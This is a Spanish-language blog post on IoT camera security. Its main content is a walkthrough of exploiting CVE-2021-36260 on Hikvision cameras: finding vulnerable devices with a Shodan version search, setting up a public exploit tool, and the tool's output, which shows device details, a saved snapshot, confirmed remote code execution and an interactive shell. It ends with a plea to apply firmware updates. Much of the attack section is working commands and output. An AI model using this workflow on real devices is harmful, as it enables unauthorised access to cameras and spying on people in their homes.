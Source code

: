 ```yaml
---
title: Firmware updates
date: 2025-07-30 11:00:00 +0200
categories: [ciberseguridad, redes]
tags: [camaras, shodan, hacking, firmware, iot]     
image:
    path: https://upload.wikimedia.org/wikipedia/commons/thumb/8/88/Firmware_update_Fuji_Instax_Liplay.jpg/500px-Firmware_update_Fuji_Instax_Liplay.jpg1024px-Surface_Web_%26_Deep_Web.jpg
    alt: firmware update
---
```


## Ciberseguridad de IoT
Quiero dejar evidencia de lo sencillo que puede resultarle a actores maliciosos, obtener información de dispositivos IoT o hackearlos. Estos dispositivos, cámaras, sensores, aspiradoras, neveras, routers, etc, etc y cada vez hay más claro que no todos se conectan a Internet, sino "solamente a la red interna", esto en la mayoría de casos es cierto, pero poco a poco iremos "abriendo más puertos" para tener acceso a estos dispositivos desde Internet o dicho de otra forma, les daremos acceso a "la red" y no los tendremos tan aislados porque nos proporcionan "bienestar". Por ejemplo las cámaras de videovigilancia cada vez son más comunes y que en cierta forma proporcionan seguridad, a su vez el poder usar "la red" para tener acceso a ellas mejora la observabilidad, y retroalimenta la seguridad. 

## Exploits  
Los actores maliciosos buscan vulnerabilidades para por ejemplo crear una botnet con dispositivos IoT. Cuando encuentran una como esta ya sea investigando ellos mismos o por por terceros, pasan a la siguiente fase. ```CVE-2021-36260``` 

## Dorking y sondas
Ahora que los actores maliciosos conocen las vulnerabilidades, lo que necesitan es encontrar objetivos a los que aplicar las técnicas necesarias para ganar acceso, privilegios y control sobre los mismos. 

Hay varias formas de encontrar estos dispositivos, puedes hacerlo con un script que haga un request aletoriamente por IPs para comprobar si ese puerto es una cam o una marca en concreto, lo que se llama escrapeo, con herramientas escáneres como Zmap capaces de escanear Internet entero en pocos minutos. También puedes usar la opción más dependiente que es usar una API de terceros como [https://www.shodan.io](https://www.shodan.io/), que es la que usé para testear. Otras formulas de búsqueda por supuesto. 

![shodan.io](https://upload.wikimedia.org/wikipedia/en/3/38/Shodan_%28website%29_logo.png)

Ahora en el buscador de Shodan introducimos simplemente ```3.1.3.150324``` esta sería la versión de la web vulnerable que nos indican en el exploit, si bien puede que afecte a más productos y por lo tanto a otras versiones de la web. Esto solo es el filtro que hemos aplicado a Shodan.io para el resultado de su motor. Aplicando otros filtros es posible que obtengamos más resultados. 

### Preparación 
``` shell
git clone https://github.com/tamim1089/HikvisionExploiter
python -m venv .
source bin/activate
pip install -r requirements.txt
nano targets.txt #introduces los targets ip:puerto
```

## Explotación

``` shell
python checker.py
=======================================================
Target: 192.168.2.221:81
=======================================================

[+] Directory accessible: http://192.168.2.221:81/onvif-http/snapshot?auth=YWRtaW46MTEK

[+] Device Info
    deviceName: IP CAMERA
    deviceID: 88
    deviceDescription: IPCamera
    deviceLocation: Lugo
    systemContact: Hikvision.China
    model: DS-2CD3T20D-I3
    serialNumber: DS-*********
    macAddress: c4:********
    firmwareVersion: V5.3.1
    firmwareReleasedDate: build 150401
    bootVersion: V1.3.4
    bootReleasedDate: 100316
    hardwareVersion: 0x0

[+] Users
    admin: Administrator
[+] Snapshot saved: logs/192.168.2.221:81_20250730_124156/20250730_124156.jpg

-- CVE-2021-36260 (RCE Command Injection Check) --
    RCE confirmed! Device is VULNERABLE!!!
    Run this to get a shell: chmod +x shell.sh && ./shell.sh 192.168.2.221:81

```

RCE shell, el proyecto viene acompañado de una utilidad para interactuar con el dispositivo a través de Curl 

```shell
(HikvisionExploiter) ┌──(pablo☠office)
└─$ ./shell.sh 192.168.2.221:81
[+] Target 192.168.2.221:81 appears vulnerable!
Connected to Hikvision target: 192.168.2.221:81
Type commands to execute remotely. Ctrl+C to exit.
hikvision-shell> ls
applib
certs
initrun.sh
pidfile
process
r2_isp_config
sound
webLib
```
Si el dispositivo es vulnerable además se generará un carpeta en el directorio logs intentará checkear si el dispostivo es  vulnerable a obtener una shell y además sacará una fotograma de la webcam y una copia del config_enc.bin el proyecto dice que intentará descifrarlo pero no he visot que lo haga, se quedará en un intento. 

``` shell
├── 192.168.2.221:81_20250730_124156
│   ├── 20250730_124156.jpg
│   └── config_enc.bin
```

## Firmware updates

Tengo un artículo explicando 14 puntos a tener en cuenta a la hora de securizar un router, en el se habla también de las actualizaciones y del miedo que se tiene a parchear, actualizar, etc este tipo de dispositivos. Solo intenta evaluar lo siguiente: Romper/brikear un dispositivo es algo técnico y puede que cueste dinero y tiempo, que te espíen en tu propia casa es algo personal. 

![webcam guitarrist](https://upload.wikimedia.org/wikipedia/commons/6/69/1975_Alvarez_guitar_%282010-10-18_03.14.15_by_fenderfish%29.jpg)

El de la foto no soy yo, pero ejemplifica la situación. 